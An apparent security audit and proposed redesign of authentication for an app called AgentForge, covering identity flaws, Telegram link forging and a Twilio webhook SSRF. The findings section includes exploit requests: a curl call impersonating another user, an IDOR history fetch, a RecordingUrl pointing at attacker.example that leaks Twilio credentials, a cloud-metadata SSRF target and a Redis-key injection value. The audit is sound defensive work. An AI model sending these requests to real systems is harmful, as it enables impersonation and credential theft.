

# M0.1 — Authentication & Authorization Architecture

> Status: **Inspection + proposal. Nothing in sections 3–7 is implemented.**
> Inspected commit: `c841cef` (`main`). Date: 2026-11-12. Method: read-only source inspection; no code run, no external calls, no secret values read or printed.
> `AgentForge_2.0_Master_Context.md` was **not found** in the repo (searched outside `node_modules`/`venv`). `flow.md` and `decision.md` were read; source is treated as authoritative.
> Relevant approved decisions: D002, D009, D016 (workspace isolation, RBAC, encrypted credentials), D007, D012.

---

## 1. Current architecture (as implemented)

### 1.1 Login and session (frontend only)
- `frontend/app/api/auth/[...nextauth]/route.ts`: NextAuth **v4.24.14** (`frontend/node_modules/next-auth/package.json`), one provider `GoogleProvider({clientId: GOOGLE_CLIENT_ID, clientSecret: GOOGLE_CLIENT_SECRET})`. **No** `secret`, `session`, `jwt`, `callbacks`, `pages`, `cookies` options. Consequences (NextAuth v4 defaults): JWT session strategy, 30-day `maxAge`, an **encrypted (JWE) cookie** `next-auth.session-token` scoped to the Vercel origin, `session.user = {name, email, image}` (no user id/`sub`, no `email_verified` check). `NEXTAUTH_SECRET` is not referenced in code; NextAuth requires it in production, so it is presumably set on Vercel — **[Unverified]**.
- The file also `export`s `authOptions` from a route module. Next.js App Router only permits HTTP-method exports from `route.ts`; this is a known build-type error source — **[Suspected, unverified; no build was run]**. Relevant because server-side code will need to import `authOptions` from a non-route module (task T3).
- `frontend/app/session-provider.tsx` wraps the tree in `SessionProvider` (`layout.tsx`); `auth-button.tsx` uses `signIn("google")`/`signOut()`/`useSession()`.
- No `middleware.ts`/`proxy.ts` in the frontend: **no route is protected server-side**; pages render for signed-out users and merely show "Sign in to use AgentForge." client-side before calling the backend.

### 1.2 How identity reaches the backend
The browser reads `session.user.email` via `useSession()` and puts it **as a plain field** in the request:

| Frontend code | Transport | Identity carried |
|---|---|---|
| `app/page.tsx` `runAgent` | WS `wss://65-0-30-8.sslip.io/ws`, `ws.send({agent, task, user_email})` | body field |
| `app/autonomous/page.tsx` `execute` | `POST /autonomous/run` body `{agent, task, user_email}` | body field |
| `app/autonomous/page.tsx` `loadTasks/schedule/removeTask` | `/tasks`, `/tasks/schedule`, `/tasks/{id}` | **none** |
| `app/history/page.tsx` `loadHistory` | `GET /history/{encodeURIComponent(email)}` | path segment |
| `app/improve/page.tsx` | `POST /improve/{agent}` body `{user_email}` | body field |
| `app/page.tsx` "Connect Telegram" | link `t.me/<bot>?start=<base64url(email)>` (`telegramStartToken`) | email encoded in link |

No `Authorization` header, no cookie, and no token ever goes to FastAPI. Cross-origin (Vercel → VM) so NextAuth's cookie would not be sent even if the backend wanted it. API base URLs are hard-coded constants per file (`API_BASE`, `WS_URL`).

### 1.3 Backend request handling (`backend/main.py`)
- `FastAPI(title=..., lifespan=lifespan)`; the only middleware is `CORSMiddleware(allow_origins=["http://localhost:3000"], allow_credentials=True, allow_methods=["*"], allow_headers=["*"])`.
- No `Depends(...)` anywhere, no auth dependency, no request-context object. Handlers pass the client-supplied `user_email` straight to `orchestrator` / `executor` / `improver` / `long_term`.
- The WebSocket handler `websocket_endpoint` calls `websocket.accept()` unconditionally, then per message reads `data.get("user_email")` and only checks it is non-empty.
- Telegram and Twilio are **separate ingress paths** with their own (weaker) notions of identity; see 1.5.
- Default FastAPI `/docs`, `/redoc`, `/openapi.json` are enabled (no `docs_url=None`).

### 1.4 Data layer identity (`backend/memory/long_term.py`, `short_term.py`)
- Identity is the raw email string everywhere: PG `agent_memories.user_email` (nullable, indexed), `telegram_links.email`, Redis `short_term:{email}:{agent}`, `improvements:{agent}:{email}`.
- **There is no `users` table, no `workspaces`/`organizations`/`memberships` table, no roles, no sessions/tokens table.** Workspace/organization concepts: **not present** in code.
- Null-email behaviour: `short_term._key` and `SelfImprover._key` fall back to *global* keys; `LongTermMemory.get(agent, None)` **skips the user filter** (see F3).

### 1.5 Telegram and Twilio identity
- `backend/telegram_bot.py`: `/link <email>` → `link_command` → `set_email(chat_id, email)` (only `_looks_like_email`: contains `@` and a dot). `/start <token>` → `_decode_link_token` (url-safe base64 → email, same loose check) → `set_email`. `message_handler`, `voice_message_handler`, `recent_history_command` trust `telegram_links.email`. Handlers have **no chat-type filter** (groups included) and no allow-list.
- `backend/voice_handler.py` `process_recording`: Twilio `RecordingUrl` from the form body is fetched with Twilio SID/token as basic auth; all callers run as the shared identity `voice-call@agentforge.local`. No `X-Twilio-Signature` validation.

### 1.6 Current request flow (diagram)


### 1.7 Auth-relevant environment variables (names only)
`GOOGLE_CLIENT_ID`, `GOOGLE_CLIENT_SECRET` (frontend route); `NEXTAUTH_SECRET`, `NEXTAUTH_URL` (implicit, unverified); `GROQ_API_KEY`, `DATABASE_URL`, `REDIS_URL`, `TELEGRAM_BOT_TOKEN`, `TWILIO_ACCOUNT_SID`, `TWILIO_AUTH_TOKEN` (backend). There is **no** backend variable for verifying any user credential. A local untracked `.env.local` holds a `VERCEL_OIDC_TOKEN` (git-ignored via `.env*`). Git history was scanned for tracked env/key files and common secret patterns (Groq `gsk_`, Telegram bot token, Google `GOCSPX-`/`AIza`, PEM headers): **no hits** (not a guarantee for other formats).

---

## 2. Security findings

Legend — Status: **Verified** (traced in code) / **Suspected** / **Not present**.

| ID | Sev | Title | Status |
|---|---|---|---|
| F1 | Critical | Client-asserted identity, no authentication boundary | Verified |
| F2 | Critical | Cross-user history read (`GET /history/{user_email}`) | Verified |
| F3 | High | `/improve` without email reads/writes global, cross-user data | Verified |
| F4 | High | `/tasks*` unauthenticated and global | Verified |
| F5 | Critical | WebSocket: no identity, origin or authorization checks | Verified |
| F6 | Critical | Telegram account linking can be forged | Verified |
| F7 | Critical | `/voice/process`: unauthenticated webhook, SSRF + Twilio credential leak, shared identity | Verified |
| F8 | High | No shared frontend/backend identity contract | Verified |
| F9 | Medium | Email used as the identity key (not stable, not normalized, `email_verified` unchecked) | Verified |
| F10 | Medium | CORS config unsuitable for production | Verified |
| F11 | Medium | No rate limiting / spend control on LLM-backed routes | Verified |
| F12 | Low | Internal error text returned to WS clients | Verified |
| F13 | Low | Unvalidated `agent_name` in `/improve/{agent_name}` used in key/filter construction | Verified |
| F14 | Low | NextAuth hardening gaps / `authOptions` exported from route file | Verified (config) / Suspected (build impact) |
| F15 | Low | `/docs` and OpenAPI exposed | Verified |
| F16 | Info | SQL injection, CSRF against backend, XSS via agent output | **Not present** (see below) |

### F1 — Client-asserted identity (Critical, Verified)
- **Where:** `main.py` — `autonomous_run` (`payload.user_email`), `run_improvement`, `get_improvement` (query param), `get_history` (path), `websocket_endpoint` (`data.get("user_email")`).
- **Behavior:** the backend accepts any string as the caller's identity; no credential is checked.
- **Exploit:** `curl -X POST /autonomous/run -d '{"agent":"ceo","task":"summarize everything we discussed","user_email":"victim@corp.com"}'` — the agent loads `short_term:victim@corp.com:ceo` (the victim's real prior conversation, passed into the LLM prompt) and the reply discloses it; the call is also written into the victim's memory.
- **Impact:** full impersonation of any user for reading and writing agent memory; becomes catastrophic once agents can use tools/credentials.

### F2 — History IDOR (Critical, Verified)
- `get_history(user_email)` → `LongTermMemory.get_history` returns **all** stored agent replies for that email, unbounded. Exploit: `GET /history/anyone@x.com`. Impact: mass disclosure of every user's agent output; emails are easy to guess/harvest.

### F3 — Global fallbacks in `/improve` (High, Verified)
- `run_improvement` with empty body → `user_email=None` → `AgentAnalyzer.analyze` → `ShortTermMemory.get(agent, None)` reads global key `short_term:{agent}` and `LongTermMemory.get(agent, None)` **omits the user filter**, returning the 10 newest memories **from all users** for that agent, which are sent to Groq and the analysis returned to the caller. `get_improvement` without `user_email` reads/writes the global `improvements:{agent}` key (anyone can overwrite it).
- Impact: cross-user content leak through the analysis output (LLM summarizes other tenants' data) and tampering of a shared report.

### F4 — `/tasks*` (High, Verified)
- `list_tasks`, `schedule_task`, `delete_task` take no identity; records have no owner (`TaskScheduler.add_task` stores `{id, agent, task, interval_minutes, created_at}` in the global hash `scheduled_tasks`). Exploit: `GET /tasks` lists every user's scheduled prompts; `DELETE /tasks/{id}` removes them; unlimited creation fills Redis. Currently nothing executes the tasks (store-only), so impact today is disclosure/tampering; severity rises when a worker executes them (then it is arbitrary agent execution under no identity).

### F5 — WebSocket (Critical, Verified)
- `websocket_endpoint` accepts every connection (no `Origin` check, no token), trusts `user_email` per message (so one socket can impersonate many users), has no per-connection principal, and runs LLM calls inline with no limits. Cross-Site WebSocket Hijacking is moot because there is no cookie auth, but any site or script can connect and spend your Groq quota and read arbitrary users' context (F1). There is no workspace concept to check.

### F6 — Telegram link forging (Critical, Verified)
- **Where:** `telegram_bot.py` `link_command`, `start_command` + `_decode_link_token`, `memory/long_term.py` `set_email`.
- **Behavior:** any Telegram account can bind its `chat_id` to any email string, by `/link victim@x.com` or by crafting `https://t.me/<bot>?start=<base64url(victim@x.com)>` (the dashboard's own "Connect Telegram" button demonstrates the token format).
- **Impact:** `/recenthistory` returns the victim's last 5 agent outputs; normal messages run agents inside the victim's memory namespace (read leak via context, write poisoning). A second weakness: the email itself travels in the deep link (PII in URLs/chat history). The bot also answers in group chats (no `ChatType.PRIVATE` filter), so a group could share one linked identity.
- A legitimate user's link can also be **silently re-pointed**: `set_email` upserts, so linking again overrides the earlier association.

### F7 — Twilio webhook (Critical, Verified)
- `voice_process` takes `RecordingUrl` from the form and `process_recording` does `httpx.get(audio_url, auth=(TWILIO_ACCOUNT_SID, TWILIO_AUTH_TOKEN))` with `audio_url` derived from the attacker-controlled value (only a `.mp3` suffix is appended). **Exploit:** `POST /voice/process RecordingUrl=https://attacker.example/x` → the backend sends `Authorization: Basic base64(SID:TOKEN)` to the attacker (credential theft), or targets internal addresses (SSRF: `http://169.254.169.254/...`, `http://localhost:...`). No `X-Twilio-Signature` validation, so anyone can POST to both voice routes; they also trigger Groq Whisper + CEO runs (cost). All callers share `voice-call@agentforge.local`, so each caller's CEO prompt includes prior callers' conversation (cross-caller leakage).

### F8 — No shared identity contract (High, Verified)
- Frontend knows who the user is (NextAuth) but never proves it to the backend; backend has no way to verify anything. Root cause of F1, F2, F5. NextAuth's session cookie is origin-bound to Vercel, encrypted with a key derived from `NEXTAUTH_SECRET`, and cannot be validated by FastAPI without sharing that secret and re-implementing NextAuth's JWE decoding — a fragile design (see §3.2, option A).

### F9 — Email as identity (Medium, Verified)
- Keys use the raw, **case-sensitive** email (`Alice@x.com` ≠ `alice@x.com` → split histories and possible namespace confusion). No Google `sub` is stored; `email_verified` is not checked (no `signIn` callback); emails can change/be recycled. Telegram `/link` accepts values that aren't even valid emails. Separator injection: Redis keys are `colon`-joined with unvalidated components.

### F10 — CORS (Medium, Verified)
- Single hard-coded `http://localhost:3000` with credentials enabled and wildcard methods/headers. The deployed Vercel origin is **not** allowed, which means the deployed dashboard's cross-origin REST calls should fail in a browser (WS is unaffected) — either production differs from this commit or REST is broken there **[Unverified]**. Once changed it must be an env-driven explicit allow-list; with bearer tokens `allow_credentials` should be `False`.

### F11 — No rate limiting / quotas (Medium, Verified)
- No limits on any route, WS message, Telegram or voice path; unauthenticated callers can burn Groq spend. Mitigation depends on authenticated identity (per-user limits), so it follows F1.

### F12 — Error disclosure (Low, Verified)
- `websocket_endpoint` returns `f"Agent failed: {exc}"`; REST routes return default 500s. Provider exceptions can include request details. Also `receive_json` on malformed JSON raises an unhandled exception.

### F13 — Unvalidated `agent_name` (Low, Verified)
- `/improve/{agent_name}` passes the URL segment into Redis keys and PG filters without checking it against the known agents. With `user_email` omitted, key `short_term:{agent_name}` can be steered to another user's key (`agent_name="victim@x.com:ceo"` → `short_term:victim@x.com:ceo`). Redundant with F1 today, but a distinct bug class to close.

### F14 — NextAuth hardening (Low)
- No explicit `secret`, session `maxAge`/`updateAge`, `signIn` callback (`email_verified`), no `jwt`/`session` callbacks, `authOptions` exported from a route file (Suspected build issue). `NEXTAUTH_SECRET` presence **[Unverified]**.

### F15 — API docs exposed (Low, Verified)
- Default `/docs` and `/openapi.json` publish the full unauthenticated surface.

### F16 — Not present
- **SQL injection:** all DB access uses SQLAlchemy ORM parameters (`long_term.py`). **CSRF against the backend:** no cookies are used for backend auth. **XSS via agent output:** only `dangerouslySetInnerHTML` is the static theme script in `layout.tsx`; agent text is rendered as React text (not exhaustively reviewed for markdown renderers — `page.tsx` uses a local `cleanMarkdown`, no HTML injection seen).

### 2.1 Corrections / additions to `flow.md` (not silently rewritten)
1. `flow.md` §5.2/§18 describe the improve path as "user_email optional"; the **cross-user consequence (F3: `LongTermMemory.get` skipping the user filter)** is not stated there and should be added.
2. `flow.md` §18 should add: Telegram handlers lack a private-chat filter; `set_email` silently overwrites an existing link; the dashboard "Connect Telegram" token is plain base64 of the email.
3. `flow.md` §6 says NextAuth session is "used only to read `session.user.email`" — accurate; add that no route is protected server-side (no middleware) and `authOptions` is exported from the route module.
4. `flow.md` §8 lists "Auth on every endpoint: none" — still accurate. `/docs`/`/openapi.json` exist and are unauthenticated (not listed there).
5. Nothing in `flow.md` was found to be materially wrong; its "unverified" markers (NEXTAUTH_SECRET, CORS vs. deployed origin) remain unverified.

---

## 3. Recommended target architecture (PROPOSED — not implemented)

### 3.1 Requirements
Server-verified identity; no client-supplied identity fields; usable by browser REST **and** WebSocket across origins (Vercel ↔ VM); works for non-browser ingresses (Telegram, Twilio, future workers); stable user ID for future workspaces; minimal new dependencies; keep Next.js + NextAuth + FastAPI.

### 3.2 Options evaluated
| Option | Summary | Pros | Cons | Verdict |
|---|---|---|---|---|
| **A. Forward the NextAuth session cookie/JWT to FastAPI** | Share `NEXTAUTH_SECRET`; backend decrypts NextAuth's JWE | no new endpoints | cookie is origin-bound to Vercel (not sent cross-origin); backend must reimplement NextAuth's HKDF/JWE and stay in sync with its internals; one secret protects both web sessions and API; no audience separation | **Reject** |
| **B. Next.js BFF proxy** (browser → Next route handlers → FastAPI with service credential) | same-origin cookies; backend hidden | no CORS; simple trust (backend trusts only the BFF) | **WebSockets cannot be proxied on Vercel serverless**; long LLM calls hit function time limits; double hop; backend still needs a verifiable end-user identity for audit/RBAC; every future client (CLI, mobile, Telegram web login) must go through it | Reject as the primary mechanism |
| **C. Backend-verifiable access token minted by Next.js (recommended)** | After NextAuth login, a server-only Next route (`/api/backend-token`) checks the NextAuth session and signs a **short-lived JWT** (audience `agentforge-api`); the browser sends it as `Authorization: Bearer` (REST) or first WS message; FastAPI verifies signature/claims | works cross-origin and for WS; backend verifies without NextAuth internals; claims scoped/short-lived; reuses NextAuth (no replacement); `jose` is already in the Next tree (dependency of `next-auth`) | needs key management; two-step token refresh; Next becomes the token issuer | **Recommended** |
| **D. Backend-owned auth** (FastAPI does Google OAuth, issues its own sessions; drop NextAuth) | single auth authority | cleanest long-term; revocation/refresh trivially server-side | largest change (new OAuth code, CSRF/state handling, cookies across Vercel↔VM, rewrite login UI); violates "no new framework without compelling reason" for now | Defer; C is forward-compatible (issuer can move to FastAPI later without changing the verification contract) |
| **E. Send Google ID token to FastAPI, verify against Google JWKS** | backend trusts Google directly | no shared secrets | needs Google ID-token retention/refresh inside NextAuth callbacks (1 h life), runtime dependency on Google JWKS, couples API to one IdP, cannot carry app claims (user id, workspace) or service identities | Reject |

### 3.3 Chosen design (Option C) — components
1. **Identity source of truth:** Google OAuth via NextAuth login (unchanged UX). Add a `signIn` callback that **requires `profile.email_verified === true`**, and `jwt`/`session` callbacks that preserve Google `sub` (stable subject). Set explicit `secret`, `session.maxAge` (default proposal 7 days).
2. **Token minting (server-only, Next):** route handler (e.g. `app/api/backend-token/route.ts`) calls `getServerSession(authOptions)`; if absent → 401. Else signs JWT:
   `{ iss:"agentforge-web", aud:"agentforge-api", sub:<google sub>, email, email_verified:true, iat, exp:iat+600s, jti }`. Signing key: **asymmetric (ES256 or EdDSA)** held only in Vercel env (`BACKEND_TOKEN_PRIVATE_KEY`), `kid` header for rotation. Backend holds only the public key(s). Acceptable simplification for M0.1: HS256 with a dedicated ≥32-byte secret distinct from `NEXTAUTH_SECRET` (see Open Decision O3).
3. **Backend verification (FastAPI):** a single dependency `get_current_principal` verifies signature, `iss`, `aud`, `exp` (30 s leeway), required claims, `kid`; looks up/creates the internal `users` row via `auth_identities(provider="google", subject=sub)`; rejects inactive users; returns a `Principal`. Library: **PyJWT** (+ `cryptography` if asymmetric) — a small library, not a framework (to be approved; not installed now). Verification failures → 401 with generic body; no identity in logs beyond internal user id.
4. **Principal (internal representation):**
   ```
   Principal(user_id: UUID, email: str, auth_provider: str, subject: str,
             is_active: bool, workspace_id: UUID | None = None,   # None until M0.2
             roles: frozenset[str] = frozenset(), source: "web"|"telegram"|"service")
   ```
   Handlers never receive or accept `user_email`; all data access takes `principal.user_id`.
5. **Authorization:** a central `authorize(principal, action, resource)` seam (M0.1: owner-only checks on user-owned resources; M0.2+: workspace membership + role matrix). Ownership enforced in queries (`WHERE user_id = :principal.user_id`), never by trusting an ID alone; unknown/foreign IDs return 404.
6. **Workspace readiness (without implementing multi-tenancy):** all new/changed tables carry `user_id` now; M0.2 adds `workspaces`, `memberships`, per-user "personal workspace" and a `workspace_id` column. The contract reserves an `X-Workspace-Id` header (REST) / `workspace_id` in WS connect; in M0.1 the server **rejects** any non-empty value (400) so clients cannot rely on unenforced behavior. When M0.2 lands, workspace is validated against `memberships` for the `Principal`, never taken on trust.
7. **RBAC (design only):** roles `owner > admin > member > viewer` per workspace (D016); permission strings like `agent:run`, `task:schedule`, `memory:read`, `tool:execute`; M0.1 only defines the `Principal.roles` field and the `authorize` seam.
8. **WebSocket authentication:** browsers cannot set headers on WS; avoid tokens in query strings (logged by proxies). Use **first-message authentication**: connection is accepted, must send `{"type":"auth","token":"<jwt>"}` within 5 s (else close 4401); server verifies, binds `Principal` to the connection, replies `{"type":"auth_ok"}`. Subsequent messages must **not** contain identity; any `user_email` field is ignored/rejected. Validate `Origin` against allow-list at handshake. Token expiry is enforced per message (`exp` checked; client re-auths via `{"type":"auth"}` with a fresh token on the same socket; expired → close 4401). Per-connection one in-flight job and message-size/rate limits. Alternative considered: `Sec-WebSocket-Protocol` bearer subprotocol (works pre-accept but non-standard); not chosen.
9. **Service-to-service / non-web ingress:** (a) Telegram bot runs in-process today, so it calls domain code with a `Principal(source="telegram")` built from the verified link, not via HTTP. (b) Future workers/Redis Streams: jobs carry `actor_user_id` (and later `workspace_id`) written **only by trusted backend code after authentication**; workers never accept identity from external payloads. (c) If the bot/workers later become separate services calling the API, use a distinct service token (`typ:"service"`, `aud:"agentforge-api"`, scoped, short-lived, own key), and an on-behalf-of `act`/`sub` claim only after the user-link is verified server-side. (d) Twilio: authenticated by signature (below), not by user token.
10. **Telegram account linking (replaces `/link <email>` and base64-email deep link):**
    - Authenticated web user calls `POST /me/telegram/link-token` → server generates 32 random bytes, stores **SHA-256 hash**, `user_id`, `expires_at = now+10 min`, single use; returns URL `https://t.me/<bot>?start=<base64url(token)>` (43 chars, within Telegram's 64-char limit). No email in the link.
    - `/start <token>` redeems atomically (`UPDATE ... SET used_at WHERE hash=… AND used_at IS NULL AND expires_at>now() RETURNING user_id`), then writes `telegram_links(chat_id → user_id)`. Re-linking an already-linked chat to a different user requires an explicit `/unlink` first (no silent overwrite). Only **private chats** (`filters.ChatType.PRIVATE`); store Telegram `from_user.id` too and require `chat_id == user id`.
    - `/link <email>` is removed (replies with instructions to use the dashboard). `DELETE /me/telegram` and `/unlink` revoke links. Rate-limit redemption attempts per chat.
    - Existing unverified rows in `telegram_links` are untrusted and must be invalidated at cutover (see §5).
11. **Twilio voice:** verify `X-Twilio-Signature` (HMAC-SHA1 over full URL + sorted form params with the auth token; constant-time compare; no SDK needed) on both `/voice/*` routes; accept `RecordingUrl` only if scheme `https` and host `api.twilio.com`; never attach credentials to any other host; response/timeouts as today. Identity stays a clearly non-user service principal (`source:"voice"`), **not** a shared user email, with a per-`CallSid` memory namespace so callers don't see each other's context. Mapping phone → user is a later, separate feature (verified phone linking).
12. **Secrets handling:** fail-fast config at startup (typed settings; missing/short keys abort boot); no secrets in code/logs/errors; separate secrets per purpose (`NEXTAUTH_SECRET` ≠ token signing key ≠ future credential-vault KEK); private key only on Vercel, public key on VM; key rotation via `kid` + overlap window; `.env*` stays git-ignored; rotate the local Vercel OIDC token if it was ever shared. Encrypted third-party credential storage (D016) is **out of scope for M0.1** but depends on this identity boundary (envelope encryption with a KEK from env/KMS, per-workspace DEKs) — will be designed in a later milestone.
13. **Hardening bundled with the boundary:** env-driven explicit CORS allow-list (`allow_credentials=False`); disable `/docs`/`/openapi.json` in production; validate `agent_name` against the registry everywhere; normalize/avoid email in keys (use `user_id`); per-user rate limits (Redis counters) on LLM routes; generic error bodies; TTLs on short-term keys.

### 3.4 Residual risks of the chosen design
- Compromise of Vercel env = ability to mint tokens (mitigate: short TTL, `jti` logging, rotation, backend `users.is_active` check; asymmetric keys keep the backend from being a minting point).
- Revocation lag ≤ token TTL (10 min) except for user-level disablement (checked each request).
- Token held in browser memory (not localStorage) to limit XSS exposure; refresh via same-origin cookie-authenticated Next route.
- Redis `short_term` data remains un-encrypted at rest (out of scope).

---

## 4. Authentication contract (PROPOSED)

**Frontend → FastAPI (REST)**
- Header `Authorization: Bearer <access_jwt>` on every request except `GET /health` and Twilio webhooks.
- Token acquisition: browser calls same-origin `GET /api/backend-token` (cookie-authenticated via NextAuth) → `{ "token": "...", "expires_at": <unix> }`; cached in memory, refreshed ≥60 s before `exp`; on 401 refresh once then retry.
- Request/response bodies contain **no** `user_email`/`user_id`; unknown identity fields are ignored (never used).

**JWT**
- Header: `alg` ∈ {`ES256`,`EdDSA`} (or `HS256` if O3 approves), `kid`, `typ:"JWT"`. Backend **pins allowed algs** (no `none`, no alg confusion).
- Claims: `iss="agentforge-web"`, `aud="agentforge-api"`, `sub` (Google subject), `email`, `email_verified=true`, `iat`, `exp` (≤ 10 min), `jti`.

**FastAPI validation (every protected request)**
1. Extract bearer → 401 `{"detail":"Not authenticated"}` + `WWW-Authenticate: Bearer` if missing/malformed.
2. Verify signature, `iss`, `aud`, `exp`/`iat` (30 s leeway), required claims → 401.
3. Resolve `auth_identities(provider, subject)` → `users` row (create on first valid token with `email` stored from the verified claim); inactive → 403.
4. Build `Principal` and inject via `Depends(get_current_principal)`.
5. Workspace (M0.2+): `X-Workspace-Id` validated against `memberships`; M0.1 rejects non-empty value.

**WebSocket**
- Handshake: `Origin` ∈ allow-list, else close 4403. First frame `{"type":"auth","token":"..."}` within 5 s → `{"type":"auth_ok"}`; failure → close 4401. Then messages `{"type":"run","agent":..., "task":...}` (no identity). Re-auth frame allowed before expiry; expiry → close 4401. Heartbeat `ping`/`pong` retained (allowed pre-auth only for the 5 s window).

**Internal representation:** `Principal` (see §3.3.4), created once per request/connection, passed explicitly into services; domain layer signature becomes `run_agent(principal, agent, task)`.

**Workspace access enforcement (future):** `authorize(principal, action, resource)`; resources fetched with `WHERE workspace_id IN (principal's authorized workspaces)`; 404 (not 403) for foreign resources to avoid existence leaks.

**Error contract:** 401 unauthenticated/invalid token; 403 authenticated but forbidden/inactive; 404 for non-owned resources; 422 validation; 429 rate-limited. No stack traces/provider errors in bodies.

---

## 5. Database impact (PROPOSED — not implemented)

Prerequisite: a migration tool (D010 already implies it; currently `create_all` at import in `memory/long_term.py`). Recommend **Alembic** with a baseline of the existing two tables (needs approval; new dependency, see O6).

Minimum models for M0.1:
| Table | Columns (key ones) | Notes |
|---|---|---|
| `users` | `id UUID PK`, `email` (citext/lowercased, indexed, **not** unique-identity), `display_name`, `is_active bool`, `created_at`, `last_login_at` | internal identity; email is an attribute |
| `auth_identities` | `id`, `user_id FK users`, `provider` (`google`), `subject`, `email_at_link`, `created_at`; **UNIQUE(provider, subject)** | stable IdP subject; supports more providers later |
| `telegram_links` (alter) | add `user_id FK users` (NOT NULL for new rows), `telegram_user_id BIGINT`, `linked_at`; **UNIQUE(chat_id)**; keep legacy `email` temporarily, **nullify and distrust all legacy rows at cutover** | legacy rows are unverified claims |
| `telegram_link_tokens` | `id`, `token_hash UNIQUE`, `user_id FK`, `expires_at`, `used_at` | single-use, 10 min |
| `agent_memories` (alter) | add `user_id FK users` (nullable → backfill → NOT NULL), index `(user_id, agent_name, created_at DESC)` | legacy `user_email` kept until backfill |

Backfill: when a user first authenticates, attach existing `agent_memories` where `lower(user_email)=lower(users.email)` (Google-verified email makes this safe); orphan rows (`NULL`/voice/unmatched) remain unreachable until claimed or purged. Task ownership needs no table (Redis) — see matrix — but tasks should move to PG when workers arrive (D007/D012).

Deferred to M0.2 (not required now): `workspaces`, `memberships(role)`, `workspace_id` columns, `audit_log` (recommended soon after M0.1: auth events, link/unlink, failed verifications).

Redis impact: keys move to `short_term:{user_id}:{agent}` and `improvements:{user_id}:{agent}`; old email-keyed keys are abandoned (short-term is ephemeral; add TTL); `scheduled_tasks` records gain `owner_user_id`; new rate-limit counters.

---

## 6. Endpoint migration matrix (PROPOSED changes)

| Endpoint | Today | Required change |
|---|---|---|
| `GET /health` | public, static | Keep public, minimal; add separate internal readiness later. |
| `POST /autonomous/run` | trusts body `user_email` | Require bearer; drop `user_email` from `AutonomousRequest`; validate `agent` ∈ registry → 422/404 (not 500); per-user rate limit; run as `principal`. |
| `POST /tasks/schedule` | anonymous, global | Require bearer; store `owner_user_id`; validate `agent`, bound `interval_minutes` (min/max), per-user task cap. |
| `GET /tasks` | anonymous, lists all | Require bearer; return only caller's tasks. |
| `DELETE /tasks/{task_id}` | anonymous, any id | Require bearer; ownership check; 404 if not owner. |
| `POST /improve/{agent_name}` | optional body email; global fallback | Require bearer; identity from principal only; **remove all `user_email=None` paths**; validate `agent_name`; rate limit (LLM). |
| `GET /improve/{agent_name}` | optional query email; global key | Require bearer; scope to principal; validate `agent_name`. |
| `GET /history/{user_email}` | IDOR | **Replace** with `GET /history` (principal-scoped, paginated `limit/before`). Remove path-email route (no compatibility shim — it is the vulnerability). Update `app/history/page.tsx`. |
| `POST /voice/incoming` | public | Twilio signature required. |
| `POST /voice/process` | public; SSRF + cred leak | Twilio signature required; `RecordingUrl` host/scheme allow-list (`https`, `api.twilio.com`); per-`CallSid` namespace; non-user service principal. |
| `WS /ws` | anonymous, per-message email | Origin allow-list; first-message auth; principal bound to connection; ignore/reject `user_email`; message-size + rate limits; generic errors. |
| `/docs`, `/redoc`, `/openapi.json` | public | Disable in production (env flag). |
| **New** `GET /me` | – | Return principal summary (id, email, linked Telegram). |
| **New** `POST /me/telegram/link-token` | – | Authenticated; generates link URL. |
| **New** `DELETE /me/telegram` | – | Authenticated; unlink. |
| **New (Next, not FastAPI)** `GET /api/backend-token` | – | Session-authenticated token minting. |
| Telegram handlers (`start_command`, `link_command`, `message_handler`, `voice_message_handler`, `recent_history_command`, `agent_*`) | trust email in `telegram_links` | Redeem-token linking only; private chats only; resolve `user_id` from verified link; remove `/link <email>`. |
| Frontend (`page.tsx`, `autonomous/`, `history/`, `improve/`) | send `user_email`, hard-coded bases | Central `apiFetch`/`connectWs` helper attaching tokens; env-driven base URLs (`NEXT_PUBLIC_API_BASE`); stop sending email; server-side route protection for non-public pages. |

---

## 7. Implementation sequence (each task independently testable and reviewable)

| # | Task | Scope | Security tests |
|---|---|---|---|
| T0 | Test harness + config | pytest + httpx/FastAPI TestClient scaffolding; typed settings with fail-fast; env-driven CORS and docs flag; no behavior change | settings reject missing/short secrets; CORS rejects unlisted origin |
| T1 | Migrations baseline | Alembic baseline for current 2 tables (needs O6) | upgrade/downgrade on empty and populated DB |
| T2 | Identity schema | `users`, `auth_identities`; `Principal`; migration | unique `(provider, subject)`; user upsert idempotent |
| T3 | Frontend auth hardening | move `authOptions` to `lib/auth.ts`; `signIn` requires `email_verified`; `jwt/session` callbacks keep `sub`; explicit `secret`/`maxAge`; `middleware`/`proxy` protecting pages | unverified-email login rejected; unauthenticated page redirects |
| T4 | Token mint endpoint | `/api/backend-token` (server-only), key handling, TTL, `kid` | 401 without session; claims/exp/aud correct; no token for unverified email |
| T5 | Backend verification dependency | `get_current_principal` (PyJWT, pinned algs, leeway); user resolution; inactive → 403 | missing/malformed/expired/future-`iat`/wrong `aud`/wrong `iss`/bad signature/`alg=none`/HS-vs-ES confusion/unknown `kid` → 401; inactive user → 403; valid → principal |
